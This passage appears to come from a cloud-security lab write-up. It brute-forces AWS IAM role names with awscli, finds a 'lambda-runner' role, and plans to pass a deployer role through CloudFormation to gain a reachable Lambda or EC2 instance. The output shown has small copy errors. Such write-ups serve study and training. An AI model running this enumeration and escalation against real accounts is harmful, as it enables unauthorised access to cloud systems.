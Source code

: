 We need to create a new CloudFormation stack, using the `cloudformation:CreateStack` allowed to `cloudformation-deployer` passing the role `service-deployer`. The stack will create a Lambda function or an EC2 instance where we can access.
The role to pass to the Lambda or the EC2 must have a name with `-runner` suffix.
We can bruteforce the roles using awscli.

```bash
aws iam list-role-policies --role-name unknown-runner

An error occurred (NoSuchEntity) when calling the ListRolePolicies operation: The role with name unknown-runner cannot be found.

aws iam list-role-policies --role-name admin-runner

An error occurred (NoSuchEntity) when calling the ListRolePolicies operation: The role with name unknown-runner cannot be found.

aws iam list-role-policies --role-name lambda-runner

{
    "PolicyNames": [
        "LambdaRunnerPolicy"
    ]
}
```

A role called `lambda-runner` is found with a inline policy: `LambdaRunnerPolicy`. This policy allows:

```bash
aws iam get-role-policy --role-name lambda-runner --policy-name LambdaRunnerPolicy

{
    "RoleName": "lambda-runner",
    "PolicyName": "LambdaRunnerPolicy",
    "PolicyDocument": {
        "Statement": [
            {
                "Action": [
                    "logs:CreateLogStream",
                    "logs:PutLogEvents",
                    "iam:ListAttachedRolePolicies",
                    "iam:ListRolePolicies",
                    "iam:GetRolePolicy",
                ],
                "Effect": "Allow",
                "Resource": "*"
            }.
            {
                "Action": [
                    "lambda:InvokeFunction",
                    "lambda:ListFunctions",
                ],
                "Effect": "Allow",
                "Resource": "*"
            }
        ],
        "Version": "2012-10-17"
    }
}
```
